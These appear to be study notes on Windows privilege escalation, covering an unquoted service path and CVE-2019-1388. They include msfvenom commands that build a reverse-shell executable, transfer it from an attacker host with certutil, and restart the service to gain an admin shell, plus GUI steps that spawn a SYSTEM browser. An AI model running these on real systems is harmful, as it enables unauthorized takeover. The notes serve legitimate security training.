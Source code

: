 
- run winpeas
- we should find the unquoted service
- we will generate with msfvenom again and send to the path of the vulnerable unquoted file

```bash
msfvenom -p windows/shell_reverse_tcp lhost=<kali ip> lport=<port> -f exe -o ASCService.exe

# send to the machine with the same method:
python -m http.server
certutils -urlcache -f http://<kali ip>/ASCService.exe ASCService.exe

sc stop <service>
sc start <service>
```

> make sure you have a listener
and we should get a shell with admin privileges


# Escalation Path: CVE-2019-1388

Zero Day Initiative CVE-2019-1388 - https://www.youtube.com/watch?v=3BQKpPNlTSo

Rapid7 CVE-2019-1388 - https://www.rapid7.com/db/vulnerabilities/msft-cve-2019-1388


## Overview

An elevation of privilege vulnerability exists in Windows Certificate Dialog when it does not properly enforce user privileges.

We get the first access with enumeration. Found the credentials in the website

### Escalation
We are gonna restore the file that is in the recycle bin

thats reference to our vulnerability cve-2019-1388

we can confirm this by looking at browser history

so we are gonna run this with admin privileges

even tho we do not have the admin credentials

Then we click: **Show more details**

Then: **Show information about the publishers certificate**

> This is where the vulnerability take place
because it will open the browser as SYSTEM

We click: Issued by **publishers CA**

Close the program windows and go to the browser

In the browser:
```bash
go to config/preferences > file > save as...
# ignore errors
```
